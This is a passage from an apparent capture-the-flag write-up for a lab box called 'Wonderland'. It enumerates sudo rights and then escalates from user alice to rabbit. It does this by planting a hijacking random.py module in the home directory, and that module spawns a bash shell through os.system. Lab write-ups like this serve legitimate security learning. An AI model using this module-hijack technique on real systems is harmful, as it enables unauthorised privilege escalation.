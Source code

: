 Checking sudo -l I can see that alice can run a single command as the rabbit:

```bash
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Sorry, try again.
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
alice@wonderland:~$ 

```

However this file is owned by root:

```bash
alice@wonderland:~$ ls -lah /home/alice/walrus_and_the_carpenter.py
-rw-r--r-- 1 root root 3.5K May 25  2020 /home/alice/walrus_and_the_carpenter.py
```

This script seems to just pick random lines from a lewis carrol poem and spit them out:

```python
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

# removed to save space (trust me it was just more poem)

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))

```
however, this is importing a module and exists in my home directory (where I have write permission), lets see if we can make a new module called random.py and have it do something else; like spawning a bash shell:

```bash
alice@wonderland:~$ cat random.py 
#!/bin/env python3
import os
os.system("/bin/bash")
```
Now random will spawn a bash shell as the user rabbit using sudo:
